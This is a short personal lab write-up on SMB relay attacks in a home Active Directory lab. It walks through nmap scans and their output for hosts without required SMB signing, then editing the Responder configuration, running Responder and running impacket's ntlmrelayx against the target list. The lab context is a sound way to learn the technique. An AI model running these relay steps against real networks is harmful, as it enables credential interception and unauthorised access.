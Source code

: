 #smbrelayattack
#smbsigningdisabled
## SMB Relay Attacks Lab

1. Identify the host without SMB signing enabled
Command: `nmap script=smb2-security-mode.nse -p445 192.168.64.0/24 -Pn | grep not`

`-Pn` - Treats all hosts as online, skipping host discovery. This is useful if you know the host is up but it isn't responding to ICMP echo requests (ping).


Here is the result

- For the domain controller, we cannot take advantage and use the SMb relay attack because **Message signing is enabled and required** 

```
┌──(root㉿kali)-[~]
└─# nmap --script=smb2-security-mode.nse -p445 192.168.64.250 -Pn
Starting Nmap 7.94 ( https://nmap.org ) at 2024-07-14 16:59 PDT
Nmap scan report for 192.168.64.250
Host is up (0.0060s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 16:91:DE:D1:61:68 (Unknown)

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Nmap done: 1 IP address (1 host up) scanned in 0.21 seconds

```

- For the two domain computers joined to the Domain controller (192.168.64.220 and 192.168.64.221) an SMb relay attack can be executed because **Message signing is enabled but not required**. Please see below

```
┌──(root㉿kali)-[~]
└─# nmap --script=smb2-security-mode.nse -p445 192.168.64.220 -Pn
Starting Nmap 7.94 ( https://nmap.org ) at 2024-07-14 16:59 PDT
Nmap scan report for 192.168.64.220
Host is up (0.0011s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 4E:4F:0D:0B:16:40 (Unknown)

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Nmap done: 1 IP address (1 host up) scanned in 0.45 seconds

┌──(root㉿kali)-[~]
└─# nmap --script=smb2-security-mode.nse -p445 192.168.64.221 -Pn
Starting Nmap 7.94 ( https://nmap.org ) at 2024-07-14 17:00 PDT
Nmap scan report for 192.168.64.221
Host is up (0.0074s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 8E:27:0F:FF:34:D1 (Unknown)

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Nmap done: 1 IP address (1 host up) scanned in 0.36 seconds
 
```


2. After we identified the targets, put it in text file targets.txt

![[Pasted image 20240714202517.png]]

3. Change the responder configuration file to **SMB=OFF and HTTP=OFF**
`sudo mousepad /etc/responder/Responder.conf`

![[Pasted image 20240714202746.png]]

Check if they are off by running the command `sudo responder -I eth0 -dwPv`

4. Setup ntlmrelayx while the responder is running

	- If you have pimpmykali installed, just use ntmrelay
	- If you haven't pimpmykali, you can use the impacket-ntmlrelayx - newer version but not sure if it will work

![[Pasted image 20240714210446.png]]

```
impacket-ntlmrelayx -tf targets.txt smb2support
```

Execute the smb


![[Pasted image 20240714210802.png]]

We cant access but we captured the logs in kali

![[Pasted image 20240714210939.png]]


